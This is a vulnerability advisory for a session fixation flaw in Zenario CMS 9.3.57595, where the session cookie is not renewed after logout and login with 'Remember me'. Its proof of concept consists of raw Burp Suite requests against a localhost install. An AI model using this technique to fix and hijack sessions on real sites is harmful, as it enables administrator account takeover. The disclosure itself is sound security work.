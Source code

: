 # Session Fixation

Description: In Zenario CMS user session identifier (authentication token) is issued to the browser prior to authentication but is not changed after user logout and login again into the application when "Remember me" option active. Failing to issue a new session ID following a successful login introduces the possibility for an attacker to set up a trap session on the device the victim is likely to login with.

The product(s): https://zenar.io

Affected product(s)/code base: https://github.com/TribalSystems/Zenario

Affected component(s): /Zenario-9.3.57595/zenario/admin/welcome.ajax.php

Tested version: Zenario-9.3.57595

Proof of Concept:

1. Logout with current session to confirm the session is not valid

Burpsuite Request:

``` txt
POST /Zenario-9.3.57595/zenario/admin/welcome.ajax.php?task=logout&get=%7B%22task%22%3A%22logout%22%2C%22cID%22%3A%221%22%2C%22cType%22%3A%22html%22%7D HTTP/1.1
Host: localhost
Content-Length: 19
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost
Referer: http://localhost/Zenario-9.3.57595/admin.php?task=logout&cID=1&cType=html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en;q=0.9
Cookie: PHPSESSID-Zenario_9_3_57595=mbu2ar0qnut2bmibuka94fq1ue
Connection: close

_fill=true&_values=
```

![](images/logout.png)

To confirm, request change password for admin is not success.

![](images/change-pass-fail.png)

2. Login as administrator with "Remember me".

Burpsuite Request:

``` txt
POST /Zenario-9.3.57595/zenario/admin/welcome.ajax.php?task=&get=%7B%22cID%22%3A%221%22%2C%22cType%22%3A%22html%22%7D HTTP/1.1
Host: localhost
Content-Length: 726
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost
Referer: http://localhost/Zenario-9.3.57595/admin.php?cID=1&cType=html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en;q=0.9
Cookie: PHPSESSID-Zenario_9_3_57595=mbu2ar0qnut2bmibuka94fq1ue
Connection: close

_validate=true&_box={"tab"%3a"~login","tabs"%3a{"login"%3a{"edit_mode"%3a{"on"%3a1},"fields"%3a{"reset"%3a{"_was_hidden_before"%3atrue},"description"%3a{},"secure_connection"%3a{"_was_hidden_before"%3atrue},"not_secure_connection"%3a{},"username"%3a{"current_value"%3a"~leecybersec~40gmail~2Ecom"},"password"%3a{"current_value"%3a"~leecybersec"},"admin_login_captcha"%3a{"_was_hidden_before"%3atrue,"current_value"%3a""},"remember_me"%3a{"current_value"%3atrue},"admin_link"%3a{},"login"%3a{"pressed"%3atrue},"forgot"%3a{"pressed"%3afalse},"previous"%3a{"pressed"%3afalse}}},"forgot"%3a{"edit_mode"%3a{"on"%3a1},"fields"%3a{"description"%3a{},"email"%3a{"current_value"%3a""},"previous"%3a{},"reset"%3a{}}}},"path"%3a"~login"}
```

![](images/login.png)

To confirm, request change password for admin is success.

![](images/change-pass-success.png)

Discoverer(s)/Credits: CMC TSSG

- Ngo Van Tu (@leecybersec)
- Tran Thi Nho (@nhott)
- Huynh Nhat Hao (@h40huynh)
- Le Thi Huyen My (@Huy3nMy)
